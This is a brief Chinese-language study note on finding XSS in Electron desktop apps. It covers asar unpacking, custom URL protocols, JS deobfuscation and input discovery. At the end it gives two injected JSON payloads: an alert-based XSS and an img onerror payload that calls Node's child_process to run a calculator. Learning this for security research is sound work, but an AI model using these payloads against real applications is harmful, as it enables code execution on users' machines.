 ## 阅读链接
https://xz.aliyun.com/t/6998
## 前言
electron是一个流行的桌面应用开发框架,允许开发者使用web技术和nodejs结合来迅速开发桌面应用. 不过由于使用了js等, 也引入了xss漏洞.
## 解包
asar只是一个压缩包, 解包和重打包的工具可以直接通过npm下载.
下载命令sudo npm install -g asar 解压命令 asar extract app.asar <输出目录>
## 自定义url协议
electron应用可以注册自己的url 协议 例如custom://, 使得可以通过浏览器直接打开应用. 这里对url协议的处理不当可能导致rce等
## 代码反混淆
可以利用JavaScript obfuscator进行混淆
使用https://lelinhtinh.github.io/de4js/ 就能解出来，但缺点是函数参数名无法获取。
## 寻找输入点
寻找html文件的结构（某IDE的功能）
在解析的JSON上添加
```js
"ExpParams": [
          {"name":"test'/><script>alert(1)</script>","type":"input","value":"test"}
      ],
```
```js
"ExpParams": [
          {"name":"test'/></td></tr><img src=x onerror=\"require('child_process').execSync('gnome-calculator');\">","type":"input","value":"test"}
      ],
```
启用了node的子进程服务